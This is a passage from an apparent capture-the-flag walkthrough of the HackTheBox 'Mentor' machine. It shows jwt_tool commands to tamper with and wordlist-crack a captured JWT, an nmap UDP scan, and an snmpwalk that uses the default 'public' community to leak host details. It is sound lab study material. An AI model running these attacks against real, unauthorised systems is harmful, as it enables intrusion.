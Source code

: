 Let's try to crack and attack the JWT:

```bash
# Attacks
python3 jwt_tool.py -M at -t "http://api.mentorquotes.htb/quotes/" -rh "Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imthc2htaXIiLCJlbWFpbCI6Imthc2htaXJAa2FzaC5jb20ifQ.C14f3axJ7bZ9hOnglFwEHGO2D1YLj9z9rcoVeZ014Cg"

# Crack
python3 jwt_tool.py -C eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imthc2htaXIiLCJlbWFpbCI6Imthc2htaXJAa2FzaC5jb20ifQ.C14f3axJ7bZ9hOnglFwEHGO2D1YLj9z9rcoVeZ014Cg -d /usr/share/wordlists/rockyou.txt
```

None of the JWTs common vulns or cracks worked.
Currently I got no ideas where to go, tried SQLs, API overwrite, longer wordlists on feroxbuster, JWT, common passwords, curated wordlist for james, software vulns... There is not much I can do with the API right now. 


I came back into enumeration, trying harder, starting from nmap again and also scanning the UDP ports. I found the port 161 (SNMP) open:

```bash
sudo nmap -sU 10.129.228.102 
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-28 09:05 CET
Stats: 0:02:26 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 25.51% done; ETC: 10:14 (0:07:09 remaining)
Stats: 0:05:53 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 46.11% done; ETC: 10:17 (0:06:53 remaining)
Nmap scan report for api.mentorquotes.htb (10.129.228.102)
Host is up (0.040s latency).
Not shown: 912 closed udp ports (port-unreach), 87 open|filtered udp ports (no-response)

PORT    STATE SERVICE
161/udp open  snmp

Nmap done: 1 IP address (1 host up) scanned in 1905.47 seconds
```


Since it is open, we can try to query some SNMP requests to extract information about the network. I found _snmpwalk_, which is preinstalled in kali:


```bash
snmpwalk -v1 10.129.228.102 -c public                      
iso.3.6.1.2.1.1.1.0 = STRING: "Linux mentor 5.15.0-56-generic #62-Ubuntu SMP Tue Nov 22 19:54:14 UTC 2022 x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (5830727) 16:11:47.27
iso.3.6.1.2.1.1.4.0 = STRING: "Me <admin@mentorquotes.htb>"
iso.3.6.1.2.1.1.5.0 = STRING: "mentor"
iso.3.6.1.2.1.1.6.0 = STRING: "Sitting on the Dock of the Bay"
iso.3.6.1.2.1.1.7.0 = INTEGER: 72
iso.3.6.1.2.1.1.8.0 = Timeticks: (1) 0:00:00.01
```
